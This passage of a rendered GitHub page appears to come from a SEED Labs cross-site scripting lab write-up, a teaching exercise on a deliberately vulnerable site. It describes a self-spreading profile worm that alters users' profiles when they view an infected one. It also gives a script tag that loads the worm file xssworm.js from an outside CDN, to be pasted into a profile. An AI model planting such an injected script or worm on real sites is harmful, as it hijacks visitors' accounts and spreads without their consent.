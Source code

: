     <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.</p>
<h2 dir="auto"><a id="user-content-link-approach" class="anchor" aria-hidden="true" href="#link-approach"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Link Approach</h2>
<p dir="auto">Write the JavaScript file <a href="/li-xin-yi/seedlab/blob/master/Cross-Site-Scripting-Attack/xssworm.js"><code>xssworm.js</code></a> and store it in the external link <a href="https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js" rel="nofollow">https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js</a></p>
<p dir="auto">Add it into Samy's profile:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span>
  <span class="pl-c1">type</span>="<span class="pl-s">text/javascript</span>"
  <span class="pl-c1">src</span>="<span class="pl-s">https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js</span>"
<span class="pl-kos">&gt;</span><span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script
  type=&quot;text/javascript&quot;
  src=&quot;https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js&quot;
></script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
